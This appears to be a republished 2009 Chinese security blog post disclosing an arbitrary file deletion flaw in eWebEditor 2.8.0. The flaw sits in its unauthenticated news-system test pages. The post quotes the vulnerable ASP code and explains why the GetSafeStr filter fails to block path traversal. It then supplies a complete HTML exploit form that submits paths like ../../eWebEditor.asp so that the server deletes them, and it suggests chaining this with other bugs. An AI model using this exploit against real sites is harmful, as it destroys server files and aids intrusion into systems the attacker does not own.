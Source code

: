 ```yaml
---
title: eWebEditor 2.8.0最终版 删除任意文件漏洞利用程序
description: eWebEditor2.8.0最终版删除任意文件漏洞利用程序，这个漏洞可以很鸡肋，也可以很致命，关键看你怎么利用！此漏洞存在于ExampleNewsSystem目录下的delete.asp文件中，这是ewebeditor的测试页面，无须登陆可以直接进入，看这些代码：......
date: 2009-02-14 09:29:36
category: 漏洞信息
tags: ['eWebEditor', 'exploit', '漏洞信息']
post_id: 784
alias: eWebEditor-2.8.0-final-Delete-files-exploit
ViewNums: 7465
---
```


[**eWebEditor 2.8.0最终版 删除任意文件漏洞利用程序**](/blog/ewebeditor-280-final-delete-files-exploit)，这个漏洞可以很鸡肋，也可以很致命，关键看你怎么利用！

此[漏洞](/blog/ewebeditor-280-final-delete-files-exploit)存在于ExampleNewsSystem目录下的delete.asp文件中，这是ewebeditor的测试页面，无须登陆可以直接进入，看这些代码：

> ' 把带"|"的字符串转为数组
> Dim aSavePathFileName
> aSavePathFileName = Split(sSavePathFileName, "|")
> ' 删除新闻相关的文件，从文件夹中
> Dim i
> For i = 0 To UBound(aSavePathFileName)
> ' 按路径文件名删除文件
> Call DoDelFile(aSavePathFileName(i))
> Next

而aSavePathFileName是前面从数据库取出来的：

> sSavePathFileName = oRs("D_SavePathFileName")

看看D_SavePathFileName是怎么添加到数据库里的，在addsave.asp(modifysave.asp)里：

> sSavePathFileName = GetSafeStr(Request.Form("d_savepathfilename"))
> ...
> oRs("D_SavePathFileName") = sSavePathFileName

居然过滤了，是GetSafeStr函数，再看看这个函数，在Startup.asp里：

> Function GetSafeStr(str)
> GetSafeStr = Replace(Replace(Replace(Trim(str), "'", ""), Chr(34), ""), ";", "")
> End Function

无 语，这不是过滤字符型注入的函数么？放这里什么用也没有啊！既然路径没有过滤，那就可以直接定义了，构造一个提交页面，其中 d_savepathfilename自己任意赋值(要删除多个文件，用|隔开即可)。试试../../eWebEditor.asp，提交后删除该新 闻，于是主目录下的eWebEditor.asp不见了！

下面给出利用的htm：

```
<HTML><HEAD><TITLE>[eWebEditor删除文件](/blog/ewebeditor-280-final-delete-files-exploit) by:oldjun(http://www.oldjun.com)</TITLE><style>body,p,td,input {font-size:9pt}</style></HEAD><BODY><a href='list.asp'>新闻列表</a> | <a href='add.asp'>增加新闻</a><b>增加新闻</b><form action="http://127.0.0.1/editor/Example/NewsSystem/addsave.asp"method="post" name="myform"><input type=hidden name=d_originalfilename><input type=hidden name=d_savefilename><table cellspacing=3 align=center><tr><td>要删的文件(相对路径就可以了)：</td><td><input type="text" name="d_savepathfilename" value="" size="90"></td></tr><tr><td>新闻标题(随便填)：</td><td><input type="text" name="d_title" value="" size="90"></td></tr><tr><td>标题图片：</td><td><select name="d_picture" size=1><option value=''>无</option></select>当编辑区有插入图片时，将自动填充此下拉框</td></tr><tr><td>新闻内容(随便填)：</td><td><textarea name="d_content"></textarea></td></tr></table><input type=submit name=btnSubmit value=" 提 交 "><input type=reset name=btnReset value=" 重 填 "></form></BODY></HTML>
```

删除文件漏洞一般是配合其他漏洞使用的，比如目录遍历！

作者：[oldjun](http://www.oldjun.com/blog/index.php/archives/40/)

